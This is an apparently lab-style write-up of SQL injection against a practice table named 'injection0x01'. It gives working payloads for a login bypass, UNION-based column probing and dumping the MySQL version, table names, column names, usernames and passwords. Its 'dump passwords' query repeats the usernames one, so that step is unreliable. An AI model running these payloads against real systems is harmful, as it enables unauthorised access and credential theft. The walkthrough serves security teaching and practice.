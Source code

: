 We can check if **SQLI** is possible by using this query -  `admin' OR 1=1#` or `admin' OR 1=1-- -` and here is the output

![](https://i.imgur.com/MDvwaaB.png)

Since we don't know how many **columns** exists on this table we could use the `UNION` query to query for information we need

```
admin' union select null,null,null#
```

**_Where :_**

>`admin` is likely an attempt to target a user or role named "admin" in the database.
  `union` is used to combine the result of the injected query with the original query.
  `select null, null, null` is an attempt to retrieve three columns of data. The null values here may be placeholders, and an attacker would typically replace them with actual data or malicious code.
 `#` is used to comment out the rest of the query, effectively ignoring any text that follows it.


#### **Example**

![](https://i.imgur.com/NpwfYPk.png)

If we get a **No users found** related message then you should keep adding the `null,` statement, till we have something positive as shown above

### **Dumping MYSQL Version**

```
admin' union select null,null,version()#
```

we can just replace the third null with `version()` and should give us the version of MYSQL

![](https://i.imgur.com/vvi9x1D.png)



### **Dumping Table Names**

```
admin' union select null,null,table_name from information_schema.tables#
```



![](https://i.imgur.com/WPBQJ6b.png)



### **Dumping Columns Names**

```
admin' union select null,null,column_name from information_schema.columns#
```



![](https://i.imgur.com/vagSHjo.png)



### **Data Exfiltration**

```
# dump usernames
admin' union select null,null,username from injection0x01#

# dump passwords
admin' union select null,null,username from injection0x01#
```

Since we know the column and tables, we can now dump out a particular column from a table with the above query



**_Dump Usernames :_**



![](https://i.imgur.com/zdI5klI.png)




**_Dump Passwords :_**



![](https://i.imgur.com/gUrnIol.png)
